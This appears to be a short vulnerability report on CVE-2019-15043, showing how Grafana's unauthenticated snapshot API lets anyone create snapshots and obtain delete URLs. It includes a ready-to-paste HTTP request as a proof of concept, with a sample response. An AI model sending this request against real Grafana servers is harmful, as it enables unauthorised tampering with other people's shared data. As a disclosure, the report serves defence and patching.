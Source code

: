 
# Grafana snapshots can be removed (CVE-2019-15043)

## Summary

Due to Grafana unauthenticated API (CVE-2019-15043) is possible to remove snapshots without being authenticated. 

According to [Grafana docs](http://docs.grafana.org/reference/sharing/):

> **Dashboard snapshot** A dashboard snapshot is an instant way to share an interactive dashboard publicly. When created, we strip sensitive data like queries (metric, template and annotation) and panel links, leaving only the visible metric data and series names embedded into your dashboard. Dashboard snapshots can be accessed by anyone who has the link and can reach the URL.

## Steps To Reproduce

 1. Request in Burp Repeater (Copy and paste and set the  target to $DOMAIN and port 443)
 
 
 ```
 POST /api/snapshots HTTP/1.1
Host: $DOMAIN
Connection: close
Accept: */*
Accept-Language: en
Connection: close
Content-Type: application/json
User-Agent: Mozilla/5.0
Content-Length: 258

{"dashboard":
      {"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows":
      [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires":
      3600}
```

Response

```
HTTP/1.1 200 OK
Date: Sun, 18 Oct 2020 07:35:37 GMT
Content-Type: application/json; charset=UTF-8
Connection: close
..
Chuncked
..

{
"deleteKey":"o2ZI3cjYCTO63VdRGD5GOW7SmVUBsLIz",
"deleteUrl":"https://$DOMAIN/api/snapshots-delete/XXX",
"key":"KEY",
"url":"https://$DOMAIN/dashboard/snapshot/XXY"
}
```


**DeleteUrl**

$SNAPSHOT


## Impact

Dashboards created to be shared using the snapshot feature might be deleted by any unauthenticated user, damaging the ability to share data publicly. 
 

### Supporting Material/References:

https://www.cvedetails.com/cve/CVE-2019-15043/
Another POC 
https://github.com/h0ffayyy/CVE-2019-15043



